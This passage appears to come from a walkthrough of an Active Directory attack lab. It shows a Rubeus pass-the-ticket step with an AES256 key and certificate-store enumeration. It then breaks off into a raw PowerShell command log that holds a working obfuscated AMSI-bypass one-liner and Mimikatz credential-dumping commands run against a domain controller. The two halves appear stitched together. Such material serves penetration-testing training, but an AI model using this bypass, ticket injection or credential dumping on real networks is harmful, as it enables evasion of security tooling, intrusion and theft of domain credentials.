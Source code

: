 ```
         * Password : (null)
         * Key List :
           aes256_hmac       b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335 🔑

[SNIP]
```

On `us-jump3`, we can check for certificates that can be used later.

Spawn a process with the privileges of `pawadmin`.

```
C:\Windows\system32> echo %Pwn%

asktgt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:pawadmin /domain:us.techcorp.local /aes256:a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

[SNIP]

[*] Action: Ask TGT

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/US.TECHCORP.LOCAL
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  pawadmin
  UserRealm                :  US.TECHCORP.LOCAL
  StartTime                :  4/27/2025 10:57:13 AM
  EndTime                  :  4/27/2025 8:57:13 PM
  RenewTill                :  5/4/2025 10:57:13 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  HX8hwjB0y9ZVnwtJrDdN4qhFqmokLM2sZ0y6avf0LtY=
  ASREP (key)              :  A92324F21AF51EA2891A24E9D5C3AE9DD2AE09B88EF6A88CB292575D16063C30
```

Run the below commands in the new process to enumerate the LocalMachine certificate store.

```
C:\Windows\system32> winrs -r:us-jump3 cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\pawadmin>
🚀

C:\Users\pawadmin>certutil -store My

My "Personal"
================ Certificate 0 ================
Serial Number: 770000002b1e67d3cc43fe175100010000002b 📌
Issuer: CN=TECHCORP-DC-CA, DC=techcorp, DC=local
 NotBefore: 8/4/2024 9:49 PM
 NotAfter: 8/4/2025 9:49 PM
Subject: E=pawadmin@techcorp.local, CN=pawadmin, CN=Users, DC=us, DC=techcorp, DC=local
Non-root Certificate

[SNIP]
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'